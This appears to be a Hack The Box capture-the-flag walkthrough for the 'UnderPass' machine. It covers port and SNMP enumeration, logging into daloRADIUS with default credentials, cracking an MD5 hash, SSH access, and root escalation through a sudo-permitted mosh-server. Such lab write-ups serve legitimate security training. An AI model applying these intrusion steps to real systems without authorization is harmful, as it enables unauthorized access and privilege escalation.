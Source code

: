 # UnderPass-HTB-Walkthrough
# Port Scanning
for my HTB machine I was using the IP Address 10.10.11.48 , before doing a nmap scan you will need to add the IP and host in /etc/hosts/ directory and save it like this 10.10.11.48.underpass.htb

command to acccess /etc/hosts:

- sudo nano /etc/hosts/
- sudo cat /etc/hosts/ (This is good to always double check your work before moving on)

Now, moving on to the nmap scaning to find open ports:
- nmap -sV -Pn 10.10.11.48

damn this didn't give me anything good, so i run a TCP and UPD scan to see all the other open ports:
- sudo nmap -sU underpass.htb -Pn


# Harvesting using snmpbulkwalk
"snmpbulkwalk" is a command used to retrieve a large amount of data from a network device using the SNMP protocol, by sending a single "GETBULK" request to efficiently retrieve a whole tree of information (like a subtree within the MIB) from the device, making it faster than the standard "snmpwalk" command which queries one variable at a time; essentially, it allows you to efficiently gather a large set of data from a network device with a single SNMP request. 

Command: 

- snmpbulkwalk -c public -v2c underpass.htb

Output

- steve@underpass.htb
- UnDerPass.htb is the only daloradius server in the basin!
this information give me some information about the machine and after some looking into about daloradius severs, I found out a website with default login credentials.

Website: http://underpass.htb/daloradius/app/operators/login.php

Login Information

- administrator
- radius

# Hash Cracking 
go to User List and you will find username and a hashed MD5 password, copy the MD5 password and go to this link:

Website: https://crackstation.net/

# User.txt
use the username and password to login through SSH

Command: svcMosh@underpass.htb

Then add the password you cracked before !

after logging in run ls command and you will see user.txt , and then run 'cat user.txt' now you have the user flag YAYAY!!

# Root Flag
using the command sudo -l this help me list the current user privileges level , I find that the mosh-server doesnot need root privilege and I am able to go inside this directory.

using these command one by one will give you access to mosh-server:

- sudo /usr/bin/mosh-server new -p 61113
- MOSH_KEY=<Key> mosh-client 127.0.0.1 61113

now run these command:

- whoami
- cd /root
- ls -la
- cat root.txt

YAY YOU HAVE THE ROOT FLAG !!!!
